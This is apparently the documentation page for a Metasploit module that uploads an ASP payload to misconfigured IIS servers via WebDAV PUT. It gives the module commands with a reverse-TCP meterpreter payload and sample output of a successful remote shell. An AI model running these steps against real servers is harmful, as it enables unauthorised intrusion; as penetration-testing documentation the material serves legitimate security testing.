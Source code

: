 ## Description

This module can be used to execute a payload on IIS servers that have world-writeable directories. The payload is uploaded as an ASP script via a WebDAV PUT request. A WebDAV PUT request is used for uploading file on webdav server. 

**IMPORTANT:** The target IIS machine must meet these conditions to be considered as exploitable: It allows 'Script resource access', Read and Write permission, and supports ASP.

## WebDAV

Web Distributed Authoring and Versioning (WebDAV) is an extension of the Hypertext Transfer Protocol (HTTP) that allows clients to perform remote Web content authoring operations. WebDAV is defined in RFC 4918 by a working group of the Internet Engineering Task Force.

## Verification Steps

1. Do: ```use exploit/windows/iis/iis_webdav_upload_asp```
2. Do: ```set payload windows/meterpreter/reverse_tcp```
2. Do: ```set LHOST [IP]```
3. Do: ```set RHOST [IP]```
3. Do: ```set PATH / [PATH]```
4. Do: ```run```

## Sample Output

```
msf > use exploit/windows/iis/iis_webdav_upload_asp
msf exploit(iis_webdav_upload_asp) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(iis_webdav_upload_asp) > set RHOST 172.16.176.54
RHOST => 172.16.176.54
msf exploit(iis_webdav_upload_asp) > set LHOST 172.16.176.56
LHOST => 172.16.176.54
msf exploit(iis_webdav_upload_asp) > set path /upload/test.asp
path => /upload/test.asp
msf exploit(iis_webdav_upload_asp) > run
msf exploit(iis_webdav_upload_asp) > exploit

[*] Started reverse handler on 172.16.176.56:4444
[*] Uploading 613830 bytes to /upload/test.txt...
[*] Moving /upload/test.txt to /upload/test.asp...
[*] Executing /upload/test.asp...
[*] Sending stage (770048 bytes) to 172.16.176.54
[*] Deleting /upload/test.asp, this doesn't always work...
[!] Deletion failed on /upload/test.asp [403 Forbidden]

meterpreter > getuid
Server username: JUAN-C0DE875735\IWAM_JUAN-C0DE875735
meterpreter >
```
